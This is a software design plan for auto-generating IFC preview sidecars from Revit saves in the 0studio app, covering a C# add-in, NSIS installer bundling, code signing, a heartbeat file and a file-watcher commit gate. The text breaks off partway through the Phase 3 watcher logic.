

# Auto-Generate IFC Sidecar for Revit Projects

## Enhancement Summary

**Deepened on:** 2026-05-03 via 8 parallel review agents (architecture, performance, security, simplicity, data integrity, pattern recognition, TypeScript, IFC best practices).

### Critical corrections (applied inline)
1. **Synchronous `DocumentSaved` handler freezes Revit UI 10–60 s per save.** Switched to `ExternalEvent` + `Idling` pattern (Phase 1) — the handler returns in &lt;100 ms; export runs on next idle.
2. **90 s timeout fails the 95th percentile** of real models (200 MB+ takes 60–180 s, 500 MB+ takes 3–15 min). Default raised to 180 s, configurable via Electron user settings, with a `.rvt` size-based skip threshold (Phase 1 + Risk Analysis).
3. **Heartbeat schema was missing `schemaVersion`.** Added; the file format is in users' `%AppData%` after v1 ships and can't gain a field later without a migration. Also added `bootTime` for orphan-heartbeat detection (TypeScript review §6).
4. **Plan referenced Vitest; the codebase uses `node:test` + `node:assert/strict`** (only existing test: `electron/lib/log-redact.test.ts`). All test references corrected to `node:test`.
5. **Status chip naming inconsistency** (`in-progress` vs `in_progress`) collapsed to `in_progress` everywhere.
6. **Phase 0 ordering not specified.** Hardened to `.rvt` write → `.glb` write → tree.json write, with a startup integrity check that demotes `derivativeStatus: 'present'` to `'missing'` when the file is gone (data-integrity review §2).

### High-severity additions
7. **Concurrent read/write semantic mismatch** (data-integrity §6): user clicks "Save Version" while IFC export is mid-flight → derivative LIES. Fix: `commitModelChanges` checks `revitSidecarGate.isWaiting()` and either defers commit or marks `derivativeStatus: 'stale'` for later regeneration. Added to Phase 4.
8. **Late `.ifc` after timeout could regenerate the wrong commit.** The `late-ifc-arrival` payload now includes the `.rvt` content hash; renderer matches that to the right commit (data-integrity §5).
9. **Gate timer leak** on rapid saves (performance §6): `clearTimeout` before reassigning `pendingTimerId`. Added to Phase 3 with a unit test.
10. **Hostile `.glb` from a compromised producer** could exfiltrate via Three.js GLTFLoader URI fetches (security §8). Added consumer-side hardening: GLTFLoader URL modifier rejecting non-`blob:`/`data:` URIs, glTF extension allowlist, bounded buffer/texture sizes. Added to Phase 4 acceptance criteria.
11. **Code signing must include RFC 3161 timestamping** (security §1) — without timestamping the DLL becomes "untrusted" the moment the cert expires. Added to Phase 2.
12. **Split `file-changed` IPC into two channels** to preserve preview-reload UX during the 90 s wait (architecture §2): `file-changed` (immediate, drives `ModelContext` reload) + `commit-ready` (gated, drives `hasUnsavedChanges`). Phase 3 reworked.

### Simplifications (YAGNI cuts)
13. **Cut `redeploy-revit-addin` IPC stub** — premature stable-surface; ship when the diagnostic modal needs it.
14. **Status chip simplified from 5 states to 3** (`unavailable` / `in_progress` / `active`); `unknown` is mount-transient (just hide), `stale` becomes a toast + commit-row regenerate button (not a chip mode).
15. **First-overwrite sentinel + delta heuristic deferred to v2** — the chip already communicates "0studio is managing this." Saves ~80 LOC of detection heuristics.
16. **Diagnostics modal collapsed to "Open log folder"** (`shell.openPath`) — full redacted bundle deferred to when ticket volume justifies it. Saves ~120 LOC.
17. **`SetupBanner` inlined as `RevitSetupBanner`** in `VersionControl.tsx` — premature primitive otherwise (one caller).

### Items kept after challenge
- **`RevitAddinContext`** as a separate React context (renamed from `RevitPreviewContext` to avoid overloading "preview" with `ModelContext`'s geometry preview). Architecture review confirmed the context-per-concern factoring; simplicity review wanted it folded into `VersionControlContext` but the push-event subscription model + heartbeat polling lifecycle is genuinely orthogonal.
- **Multi-target csproj** (`net48` + `net8.0-windows`). Deferring to "build for 2025 only" was raised but the brainstorm's "latest 2 versions" decision stands; mechanical config cost is small.
- **Heartbeat polling cadence** at 5 s for first 30 s, then 30 s steady-state (performance §3). Originally 5 s flat.

### Phase 0 sequencing
Land **Phase 0 as a separate prior PR** (architecture review §4): ~30 LOC, isolated, independently testable, broad blast radius (the single commit funnel for every format). Reviewers then attend to the Revit-specific PR without dilution. The plan stays one document; PRs split.

### Recommended IFC pipeline (research-confirmed for 2026)
- **IFC4 Reference View** for export (geometry path is the most-tested in web-ifc; CSG/B-rep paths still hit boolean edge cases).
- **`web-ifc@0.0.77` + `@thatopen/components` `IfcLoader`** is the canonical 2026 pipeline (legacy `web-ifc-three` deprecated; `@thatopen/components` exposes `exportIfcAsGltf()` with IFC express IDs preserved).
- **TessellationLevelOfDetail = 0.5**, with `revit-ifc#629` (RV scaling 1000× off) flagged as a known bug to validate against real Revit-exported files in Phase 1.
- **Draco mesh compression** in `sceneToGlb` — typically 10–20× geometry size reduction; without it, a 50 MB `.rvt` produces a 5–25 MB `.glb`, and 500 MB inputs blow out cloud sync budgets.

A consolidated **Research Insights** appendix follows the main plan body for full attribution.

## Overview

Today on Windows, 0studio's `.rvt` version control works — every Revit save creates a commit — but the 3D preview only refreshes when the user manually re-exports an `.ifc` sidecar from Revit. In practice users forget; commits land with stale or missing previews; `.rvt` feels like a second-class format. This plan ships a small Revit add-in (.NET DLL + `.addin` manifest) bundled with the 0studio Windows installer that auto-exports a geometry-focused IFC on every Revit `DocumentSaved` event. 0studio's file watcher waits for the `.ifc` to land before finalizing the commit (with a 90 s timeout fallback), and a subtle status chip in the commit panel reflects auto-preview state.

This feature has a hard prerequisite: **Phase 2 of the dual-artifact commit model — generating the glTF derivative inside `commitModelChanges` — was never shipped.** Without it, the auto-IFC work delivers nothing to non-Windows teammates, because `.rvt` commits never produce the `.glb` derivative the renderer needs. The plan opens with that work as Phase 0.

## Problem Statement

The dual-artifact brainstorm (`docs/brainstorms/2026-04-22-dual-artifact-commit-model-requirements.md`, R4) explicitly assumed manual IFC sidecar export was acceptable for v1: "Revit users can automate IFC export via Dynamo. Avoids manual dual-file import UX." That assumption has not held in practice:

- The file watcher commits on every `.rvt` save (`src/contexts/VersionControlContext.tsx:660–675`), but commits made after a Revit save where the user forgot to re-export end up with no fresh derivative.
- The original Revit ideation (`docs/ideation/2026-04-22-revit-support-ideation.md`) rejected "Revit Add-In / Windows Sidecar" as "second product, not a feature." That judgment was made before `.rvt` support shipped and the missing-preview pain became concrete.
- A second, hidden problem: code spelunking confirms Phase 2 of the dual-artifact plan (generating `.glb` at commit time) was skipped. `commitModelChanges` saves the `.rvt` byte-for-byte but never calls `sceneToGlb` or `saveDerivativeFile`. Consumers pulling a `.rvt` commit from cloud sync currently see no preview — the storage/sync infrastructure exists, but nothing ever writes the derivative locally. The auto-IFC value prop ("Windows producer → Mac consumer sees a preview") is broken until both gaps close together.

## Proposed Solution

A two-layer fix:

1. **Phase 0 (prerequisite):** wire `sceneToGlb` + `saveDerivativeFile` into `commitModelChanges` so every commit produces a glTF derivative locally and propagates it to the cloud. This work is small (~30 LOC + tests) but unblocks every claim downstream.

2. **Phases 1–5 (the core feature):**
   - Ship a Revit add-in (C# / .NET DLL + `.addin` manifest) that subscribes to Revit's `DocumentSaved`, `DocumentSavedAs`, and `DocumentSynchronizedWithCentral` events and exports a geometry-focused IFC4 Reference View IFC alongside the `.rvt` via atomic temp+rename.
   - Bundle the add-in payload in the 0studio Windows NSIS installer; drop the DLL + manifest into `%AppData%\Autodesk\Revit\Addins\<year>\` for whichever of Revit 2024 / Revit 2025 are detected at install time.
   - Introduce a "Revit sidecar gate" in `electron/main.ts` that detects whether the add-in is active (via a heartbeat file the add-in refreshes while Revit runs) and, when active, holds the file-watcher's `file-changed` emission for `.rvt` events until the matching `.ifc` lands or a 90 s timeout elapses.
   - Add a subtle status chip to the commit panel (3-state: `unavailable` / `in_progress` / `active`; mount-transient `unknown` is hidden, post-timeout `stale` is a toast + commit-row regenerate button) and a one-time first-run banner explaining how to enable auto-preview.
   - Surface a "Regenerate preview" affordance on stale commits, and the existing one-time notice when the add-in first overwrites a user-maintained `.ifc`.

The architectural seam is the filesystem: the add-in is "dumb" — it writes a file, nothing more. No bidirectional IPC between Revit and Electron. Coupling stays at the file boundary, which makes the add-in trivially testable in isolation and the Electron side trivially testable without a Revit dependency.

## Technical Approach

### Architecture

Three concurrent processes, coordinated entirely through the filesystem:

```
┌──────────────────┐       ┌──────────────────────────────────────┐
│  Revit (.NET)    │       │  Electron main (Node)                │
│                  │       │                                      │
│ DocumentSaved    │       │  FileWatcherService (chokidar)       │
│   ↓              │       │   ↓ awaitWriteFinish 1500 ms         │
│ Add-in handler   │       │   ↓                                  │
│   ↓ Document     │       │  RevitSidecarGate (NEW)              │
│     .Export      │       │   ↓ — for .rvt: defer file-changed   │
│   ↓ atomic       │       │   ↓   until .ifc lands or 90 s       │
│ building.ifc.tmp │       │   ↓                                  │
│   ↓ rename       │       │  IPC → Renderer                      │
│ building.ifc ────┼──────>│                                      │
│                  │       │                                      │
│ Heartbeat file   │       │  Status detector (NEW)               │
│ %AppData%\       │       │   ↓ reads heartbeat mtime            │
│ 0studio\         │       │                                      │
│ revit-heartbeat  │──────>│                                      │
└──────────────────┘       └──────────────────────────────────────┘
                                          │
                                          ▼
                           ┌──────────────────────────────────────┐
                           │  Renderer (React)                    │
                           │                                      │
                           │  VersionControlContext               │
                           │   ↓ status chip state machine        │
                           │   ↓ commitModelChanges (modified)    │
                           │   ↓   → sceneToGlb + saveDerivative  │
                           │                                      │
                           │  VersionControl.tsx                  │
                           │   ↓ <RevitPreviewStatusChip>         │
                           │   ↓ first-run banner                 │
                           └──────────────────────────────────────┘
```

#### Status chip state machine

```mermaid
stateDiagram-v2
    [*] --> unknown
    unknown --> unavailable: heartbeat absent / non-Windows / Revit version unsupported
    unknown --> active: heartbeat fresh (mtime < 60 s)
    active --> in_progress: .rvt change observed, awaiting .ifc
    in_progress --> active: .ifc landed within 90 s timeout
    in_progress --> stale: 90 s timeout elapsed without .ifc
    stale --> active: late .ifc landed; user regenerates preview
    active --> unavailable: heartbeat staled (Revit closed > 60 s)
    unavailable --> active: heartbeat refreshed (Revit relaunched)
```



#### Commit-gate sequence



### Implementation Phases

#### Phase 0 — Unblock dual-artifact Phase 2 (HARD PREREQUISITE, ~30 LOC + tests)

The repo research confirms `commitModelChanges` (`src/contexts/VersionControlContext.tsx:679–893`) currently:
- reads the `.rvt` buffer (line 691)
- decides keyframe vs delta (lines 752–762)
- saves the snapshot via `desktopAPI.saveCommitFile` (line 768)
- **never calls `sceneToGlb`, never calls `saveDerivativeFile`, never sets `derivativeStatus: 'present'`**

The pipes for derivatives all exist:
- `sceneToGlb` is implemented at `src/lib/gltf-service.ts:73` (used today only by a dev validator at `:181`)
- `desktopAPI.saveDerivativeFile` wraps `FileStorageService.saveDerivativeFile` at `electron/services/file-storage-service.ts:263–268`
- `tree.json` schema has `derivativeStatus` and `derivativePath` fields
- Cloud sync transfers derivatives via existing code paths (`CloudSyncContext.tsx:450, 486–487`)

Wire it up:

##### tasks
- [ ] In `commitModelChanges` (`src/contexts/VersionControlContext.tsx:679–893`), after `saveCommitFile` succeeds and before tree mutation, call `sceneToGlb(loadedModel.objects)` to produce a `Uint8Array`.
- [ ] Call `desktopAPI.saveDerivativeFile(commitId, glbBuffer, originalFormat)`. Catch errors — derivative failure must not fail the commit (R5 from origin).
- [ ] Set `derivativeStatus: 'present'` on the new commit node when the write succeeds; `'missing'` on failure.
- [ ] Confirm `CloudSyncContext` push flow uploads `.glb` from the new commit (cite: `src/contexts/CloudSyncContext.tsx` push paths — verify during implementation).
- [ ] Backfill: surface a "Regenerate preview" affordance on existing `derivativeStatus !== 'present'` commits. Implementation deferred to Phase 4, but ensure the Phase 0 metadata fields are populated correctly going forward.

##### Files touched
- `src/contexts/VersionControlContext.tsx:679–893` — commitModelChanges
- `src/lib/gltf-service.ts` — confirm `sceneToGlb` signature accepts current scene shape; no API changes expected

##### Acceptance
- A fresh `.3dm` commit produces both `.3dm` and `.glb` files in `0studio_<name>_3dm/commits/`
- A fresh `.rvt` commit (with sidecar) produces both `.rvt` and `.glb`
- A teammate pulling the commit from cloud sync sees the preview without re-running web-ifc locally

##### Why Phase 0 belongs in this plan
Without it, even a perfectly-working auto-IFC pipeline produces commits with `derivativeStatus: missing` for every consumer. The auto-IFC plan's success criterion ("commit carries a glTF derivative") cannot be met. Either we ship Phase 2 here or the work is meaningless on the consumer side.

---

#### Phase 1 — Revit add-in foundation (.NET project)

Per the framework research: Revit 2024 runs on .NET Framework 4.8; Revit 2025 runs on .NET 8; `RevitAPI.dll` is per-year and binary-incompatible. We **must** ship two DLLs from one multi-targeting csproj.

##### Project layout
```
revit-addin/                            # NEW top-level dir, sibling to electron/
  ZeroStudio.Revit.csproj               # multi-target: net48 + net8.0-windows
  src/
    AutoExportApplication.cs            # IExternalApplication entry point
    DocumentSavedHandler.cs             # event handler + dispatch
    IfcExporter.cs                      # IFCExportOptions builder + atomic write
    Heartbeat.cs                        # %AppData%\0studio\revit-heartbeat-<year>.json
    Logging.cs                          # crash-safe append-only file logger
  manifests/
    0studio.addin.template              # XML template, year substituted at build
  build.ps1                             # build, sign, copy to ../build/revit-addin/
```

##### csproj skeleton
Multi-targeting (`net48` + `net8.0-windows`), with year-conditional `RevitAPI.dll` HintPaths and `DefineConstants` (`REVIT2024` / `REVIT2025`). Output: `bin/Debug/net48/ZeroStudio.Revit.dll` and `bin/Debug/net8.0-windows/ZeroStudio.Revit.dll`. Both ship in the installer payload as `0studio-revit-2024.dll` and `0studio-revit-2025.dll`.

##### IExternalApplication entry point + ExternalEvent dispatch (CORRECTED FROM SYNCHRONOUS)

The original draft ran `Document.Export` synchronously inside the `DocumentSaved` handler. Performance review confirmed this would freeze Revit's UI 10–60 s per save (well past Nielsen's 10 s task-abandonment threshold), making the feature itself a UX liability. **Corrected approach: handler raises an `ExternalEvent`; export runs on the next `Idling` tick on Revit's API thread, with the UI returning to the user in &lt;100 ms.** Reference: Jeremy Tammik's "Asynchronous API Calls and Idling" — already cited in the plan's external references.

```csharp
public sealed class AutoExportApplication : IExternalApplication {
    private Heartbeat _heartbeat;
    private ExternalEvent _exportEvent;
    private IfcExportEventHandler _exportHandler;

    public Result OnStartup(UIControlledApplication app) {
        _heartbeat = new Heartbeat(RevitYear);
        _exportHandler = new IfcExportEventHandler();
        _exportEvent = ExternalEvent.Create(_exportHandler);

        app.ControlledApplication.DocumentSaved              += OnDocumentSaved;
        app.ControlledApplication.DocumentSavedAs            += OnDocumentSavedAs;
        app.ControlledApplication.DocumentSynchronizedWithCentral
                                                              += OnSyncedWithCentral;
        return Result.Succeeded;
    }

    private void OnDocumentSaved(object s, DocumentSavedEventArgs e) {
        if (e.Status != RevitAPIEventStatus.Succeeded) return;
        if (e.Document?.IsFamilyDocument != false) return;
        if (string.IsNullOrEmpty(e.Document.PathName)) return;
        // Snapshot the doc state so Execute() can detect "doc changed since save".
        _exportHandler.Enqueue(new ExportRequest(
            pathName:  e.Document.PathName,
            docVersion: e.Document.GetCurrent().VersionNumber  // pseudo: use the document's version GUID
        ));
        _exportEvent.Raise();   // returns immediately; Execute fires on next idle
    }
    // OnDocumentSavedAs / OnSyncedWithCentral analogous; both call Enqueue + Raise
}

public sealed class IfcExportEventHandler : IExternalEventHandler {
    private readonly object _lock = new();
    private ExportRequest? _pending;   // single-slot; rapid saves coalesce to latest

    public void Enqueue(ExportRequest req) { lock (_lock) _pending = req; }

    public void Execute(UIApplication app) {
        ExportRequest req;
        lock (_lock) { if (_pending is null) return; req = _pending.Value; _pending = null; }
        var doc = app.ActiveUIDocument?.Document;
        if (doc?.PathName != req.pathName) return;          // doc changed; abort
        if (doc.GetCurrent().VersionNumber != req.docVersion) return;  // edits since save
        IfcExporter.ExportAtomically(doc, req.pathName);
    }

    public string GetName() =&gt; "0studio IFC Auto-Export";
}
```

This also resolves "Concurrent save coalescing" cleanly: rapid saves replace the single pending slot. The doc-version snapshot guards against the user making edits between save and idle execution.

##### IFC export
Per framework research §2: `Document.Export(folder, name, IFCExportOptions)` is the canonical API; available identically in 2024 and 2025. Geometry-focused preset (validated against IFC 2026 best-practices research):
- `FileVersion = IFCVersion.IFC4RV` (Reference View — tessellated mesh, the most-tested geometry path in web-ifc; CSG/B-rep paths in IFC2x3 CV2 still hit boolean edge cases). **Validate against `revit-ifc#629` — a known RV scaling 1000× off bug — during Phase 1 with real test files.** Keep IFC2x3 CV 2.0 as a documented fallback flag.
- `SpaceBoundaryLevel = 0`, `ExportBaseQuantities = false`, `WallAndColumnSplitting = false`
- All property-set options off, `Export2DElements = false`, `ExportLinkedFiles = false`
- `TessellationLevelOfDetail = 0.5` (community sweet spot; 0.25 = visible faceting, 0.75+ = diminishing returns at 20–60 % file growth, single fillet can grow 10 KB → 270 KB)
- `UseCoarseTessellation = true`, `UseOnlyTriangulation = true`

Wrapped in a transaction with `SetForcedModalHandling(false)` and a swallow-warnings `IFailuresPreprocessor` so no modal dialogs fire (framework research §6). Runs on the API thread inside the `Idling` callback, NOT inside the `DocumentSaved` handler — the UI does NOT block.

##### Atomic write
```csharp
var tempName  = $"{baseName}.ifc.tmp-{Guid.NewGuid():N}".Substring(0, baseName.Length + 12);
doc.Export(folder, tempName, opts);
var tempPath  = Path.Combine(folder, tempName + ".ifc");
var finalPath = Path.Combine(folder, baseName + ".ifc");
if (File.Exists(finalPath)) File.Replace(tempPath, finalPath, null);
else File.Move(tempPath, finalPath);
```

`File.Replace` on NTFS is the closest Win32 has to atomic rename-over-existing; chokidar's `awaitWriteFinish` then sees one stable file (research §5).

##### Concurrent save coalescing (SpecFlow Flow C)
With the `ExternalEvent` dispatch above, rapid saves collapse to the latest `_pending` `ExportRequest`. The export runs once per idle cycle, with the most recent doc state. No torn writes (GUID suffix on temp path), no queueing logic, no leaked timers. Log a `RAPID_SAVE` debug line on each replacement so we can verify behavior via diagnostics.

##### Size-based skip threshold (performance NFR)
For `.rvt` files exceeding **250 MB** (configurable via Electron user settings), skip auto-export and surface a chip variant `unavailable: 'rvt-too-large'` linking to manual export instructions. Performance research showed 500 MB+ models can take 3–15 minutes per IFC export, which is incompatible with any save-cadence trigger. Telemetry the actual p50/p95/p99 of model sizes after release; revisit the threshold from data.

##### Heartbeat file
The add-in writes `%AppData%\0studio\revit-heartbeat-<year>.json` while Revit is open. **Schema (versioned from day 1 — once shipped, the format is in users' `%AppData%` and can't gain a field without migration):**

```json
{
  "schemaVersion": 1,
  "pid": 1234,
  "year": 2025,
  "addinVersion": "1.0.0",
  "bootTime": "2026-05-03T18:42:11.0000000Z",
  "lastWriteIsoUtc": "2026-05-03T19:15:42.7500000Z"
}
```

- `schemaVersion: 1` — `parseHeartbeat` rejects any value other than 1; older 0studio + newer add-in falls back to `unavailable` rather than crashing on unknown fields.
- `bootTime` — the Revit process's start time. Lets `RevitStatusService` distinguish a fresh-looking orphan heartbeat (process gone but file remains) from a live process by cross-checking against `tasklist /FI "PID eq <pid>"`. Without this, a hostile or stale heartbeat could spoof "active."
- Refresh cadence: **5 s** for the first 30 s after Revit launch (fast initial detection), then **30 s** steady state. Cuts steady-state filesystem traffic without slowing the chip's `unavailable→active` flip on launch.
- `RevitStatusService` polls heartbeats at the same cadence, considers `active` if mtime < 60 s old AND `tasklist` confirms `pid` exists with a process name matching `Revit.exe`. Per-year so multiple Revit versions running simultaneously don't masquerade.
- Place the heartbeat **outside** the watched project tree (in `%AppData%\0studio\`, not the project folder) so it doesn't fire `change` events on chokidar.

Schema is duplicated between TypeScript (`electron/shared/revit-heartbeat.ts`) and C# (`revit-addin/src/Heartbeat.cs`) with a comment in both files: `// Mirror of <other-side> — bump schemaVersion in BOTH when changing.` A `node:test` parser test loads a known-good JSON fixture committed by the .NET test suite to catch drift.

##### Crash-safe error logging
All exceptions in the handler caught and appended to `%AppData%\0studio\revit-addin-log-<year>.txt` (rolled at 1 MB). 0studio surfaces this file path in a "Diagnose auto-preview" UI as a future enhancement; for v1 it's just there for support tickets.

##### Edge cases to address (from SpecFlow Flow I)
- `DocumentSavedAs`: fired for first Save and Save As. `e.Document.PathName` is the new path → `.ifc` lands at the new path. 0studio's project is still bound to the old path; this is acceptable v1 behavior — Save As creates a new project the user manually opens.
- `DocumentSynchronizedWithCentral`: workshared models. The sync fires after the local cache is updated. `.ifc` lands next to the local cache file. Acceptable; document the assumption that 0studio is opened on the local cache path, not a UNC path.
- Family documents (`.rfa`): `args.Document.IsFamilyDocument` → return early, no IFC export.
- Read-only / network / no-write-permission paths: `Document.Export` will throw `FileAccessException`; logged and swallowed; status chip stays `active` (heartbeat is fine), commit gate eventually times out, fallback applies.

##### Files added
- `revit-addin/` (new top-level directory)

##### Acceptance
- Build script produces both DLLs and matching `.addin` manifests, signed with the project's Authenticode cert.
- Manual test: open Revit 2024, edit, save → `.ifc` appears next to `.rvt` within 60 s, valid IFC magic bytes, web-ifc parses without error.
- Manual test: same on Revit 2025.
- Manual test: heartbeat file mtime updates every 30 s while Revit runs; stops updating when Revit closes.
- Manual test: rapid save (3× in 5 s) results in a single final `.ifc` matching the last save state, no torn files in the directory.

---

#### Phase 2 — NSIS installer + payload bundling

Per the best-practices research §1–4: bundle the DLLs and manifests via `extraResources` for runtime access, copy them to Revit Addins folders via a custom `installer.nsh` at install time. Per-user only for v1 (`perMachine: false` already set).

##### Build-time staging
- Pre-built signed payload sits at `build/revit-addin/0studio-revit-2024.dll`, `0studio-revit-2025.dll`, `0studio.addin.2024`, `0studio.addin.2025`. NSIS resolves `${BUILD_RESOURCES_DIR}\revit-addin\...`.
- Either commit the signed binaries to `build/revit-addin/` (simplest; binaries are small, ~50–200 KB each), or extend `scripts/afterPack.cjs` to copy them from `revit-addin/bin/` on Windows builds. Recommend committing — the .NET build pipeline runs on a Windows runner and commits the signed output as part of release prep, mirroring how `wasm` resources are handled today.

##### `package.json` build block changes
```jsonc
{
  "build": {
    "asarUnpack": [
      "dist/rhino3dm/**",
      "dist/web-ifc/**",
      "node_modules/chokidar/**"
    ],
    "extraResources": [
      { "from": "build/revit-addin", "to": "revit-addin", "filter": ["**/*"] }
    ],
    "win": {
      // existing block
    },
    "nsis": {
      "oneClick": false,
      "perMachine": false,
      "allowToChangeInstallationDirectory": true,
      "include": "build/installer.nsh",         // NEW
      "deleteAppDataOnUninstall": false         // NEW (explicit)
    }
  }
}
```

##### `build/installer.nsh` skeleton
```nsis
!include LogicLib.nsh
!include FileFunc.nsh

!macro _0studioInstallAddinForYear YEAR DLLNAME ADDINNAME
  ClearErrors
  ReadRegStr $0 HKLM "SOFTWARE\Autodesk\Revit\${YEAR}" "InstallationLocation"
  ${If} ${Errors}
    DetailPrint "0studio: Revit ${YEAR} not detected, skipping."
  ${Else}
    DetailPrint "0studio: Revit ${YEAR} detected at $0."
    SetOutPath "$APPDATA\Autodesk\Revit\Addins\${YEAR}"
    SetOverwrite on
    File "/oname=0studio-revit.dll"  "${BUILD_RESOURCES_DIR}\revit-addin\${DLLNAME}"
    File "/oname=0studio.addin"      "${BUILD_RESOURCES_DIR}\revit-addin\${ADDINNAME}"
  ${EndIf}
!macroend

!macro _0studioUninstallAddinForYear YEAR
  ${If} ${FileExists} "$APPDATA\Autodesk\Revit\Addins\${YEAR}\0studio.addin"
    Delete /REBOOTOK "$APPDATA\Autodesk\Revit\Addins\${YEAR}\0studio.addin"
  ${EndIf}
  ${If} ${FileExists} "$APPDATA\Autodesk\Revit\Addins\${YEAR}\0studio-revit.dll"
    Delete /REBOOTOK "$APPDATA\Autodesk\Revit\Addins\${YEAR}\0studio-revit.dll"
  ${EndIf}
!macroend

!macro customInstall
  !insertmacro _0studioInstallAddinForYear "2024" "0studio-revit-2024.dll" "0studio.addin.2024"
  !insertmacro _0studioInstallAddinForYear "2025" "0studio-revit-2025.dll" "0studio.addin.2025"
!macroend

!macro customUnInstall
  !insertmacro _0studioUninstallAddinForYear "2024"
  !insertmacro _0studioUninstallAddinForYear "2025"
!macroend
```

##### `Delete /REBOOTOK` rationale
If Revit holds the DLL loaded at uninstall time (SpecFlow Flow J), regular `Delete` fails. `/REBOOTOK` queues the deletion for next boot via `MoveFileEx(..., MOVEFILE_DELAY_UNTIL_REBOOT)`. Acceptable degraded UX; the user-visible 0studio app is gone immediately.

##### `.addin` manifest contents
Same GUID across years (Revit treats GUID as the identity key). Year-specific `<Assembly>` filename. Keep the manifest filenames distinct (`0studio.addin.2024`, `0studio.addin.2025`) only at the staging layer; they're written as `0studio.addin` into each year's folder.

```xml
<?xml version="1.0" encoding="utf-8"?>
<RevitAddIns>
  <AddIn Type="Application">
    <Name>0studio Auto-Preview</Name>
    <Assembly>0studio-revit.dll</Assembly>
    <AddInId>3F2C9A1E-7B8D-4E2A-9F6C-1D2E3F4A5B6C</AddInId>
    <FullClassName>ZeroStudio.Revit.AutoExportApplication</FullClassName>
    <VendorId>ZSTU</VendorId>
    <VendorDescription>0studio — https://0studio.app</VendorDescription>
  </AddIn>
</RevitAddIns>
```

##### Code signing
Per research §5: Revit *will* load unsigned DLLs but nags the user every launch with a yellow security dialog. Required: Authenticode-sign each DLL during the `revit-addin/build.ps1` step before the electron-builder build runs. Reuse the existing Windows Authenticode cert from `docs/CODE_SIGNING_GUIDE.md`.

**Timestamping is mandatory** (security review §1). Without an RFC 3161 timestamp, the DLL becomes "untrusted" the moment the cert expires — Revit's "verified publisher" promotion downgrades to "unknown publisher" on already-installed copies, breaking trust silently. The `signtool` invocation must include `/tr http://timestamp.digicert.com /td sha256 /fd sha256`. The build must `signtool verify /pa /v /tw <dll>` and fail if no timestamp is detected.

**Subject CN consistency:** the Revit DLL must be signed with the same CN as the Electron `.exe`. Users see two trust prompts (Windows UAC for the installer, Revit's "Always Load" dialog for the DLL); a publisher mismatch erodes trust. Add a build-time assertion that compares CN strings.

##### Files added / changed
- `package.json` — `extraResources` + `nsis.include` + `nsis.deleteAppDataOnUninstall`
- `build/installer.nsh` (new)
- `build/revit-addin/0studio-revit-2024.dll` (new, signed binary)
- `build/revit-addin/0studio-revit-2025.dll` (new, signed binary)
- `build/revit-addin/0studio.addin.2024` (new)
- `build/revit-addin/0studio.addin.2025` (new)
- `revit-addin/build.ps1` — signs and copies into `build/revit-addin/`

##### Acceptance
- Fresh NSIS install on a Windows VM with both Revit 2024 and Revit 2025 installed: post-install, both `%AppData%\Autodesk\Revit\Addins\2024\0studio.addin` and `...\2025\0studio.addin` exist, plus the matching DLLs.
- Same install on a VM with only Revit 2024: only the 2024 folder is touched; no errors logged.
- Same install on a VM with no Revit: clean install, no errors, no Revit Addins files written.
- Uninstall: 0studio app removed, Revit Addins entries removed (or queued via REBOOTOK if Revit was running).
- Re-install (idempotent): files overwritten cleanly, no orphaned manifests.

---

#### Phase 3 — File watcher commit gate + status detection (Electron main)

##### `RevitSidecarGate` — new service in `electron/services/revit-sidecar-gate.ts`

Sits between `FileWatcherService` and the call site at `electron/main.ts:621–635`. **Critical: emits TWO IPC channels, not one** (architecture review §2):

- **`file-changed`** (immediate, never gated) — drives `ModelContext.reloadModelFromDisk` so the on-screen 3D preview refreshes the moment Revit finishes saving the `.rvt`. Without this split, a 30–90 s wait for the `.ifc` would leave the preview "frozen" — a behavioral regression vs. today's instant `.rvt` reload.
- **`commit-ready`** (gated) — drives `VersionControlContext.hasUnsavedChanges`. Held until the matching `.ifc` lands or timeout elapses.

Responsibilities:

1. **Per-project state** (`Readonly<GateState>` swap-on-update for clean reducer-style transitions):
   - `currentRvtPath`, `pendingRvtMtime` (snapshot at deferral), `pendingRvtSha256` (computed at deferral for late-arrival matching), `pendingTimerId`, `expectedIfcBasename`.
2. **On `.rvt` change** (`isSidecar === false`, ext === `.rvt`):
   - Always: emit `file-changed` immediately to renderer.
   - If add-in is `unavailable` → also emit `commit-ready` immediately (current behavior).
   - If add-in is `active` → snapshot mtime + sha256 (cheap on saved files; Revit's own atomic-rename means content is stable), set `pendingRvtMtime`, **`clearTimeout(pendingTimerId)` BEFORE assigning** (timer leak fix per performance §6), start new 180 s timer, emit `revit-addin-status-change → in_progress`.
3. **On `.ifc` change** (`isSidecar === true`):
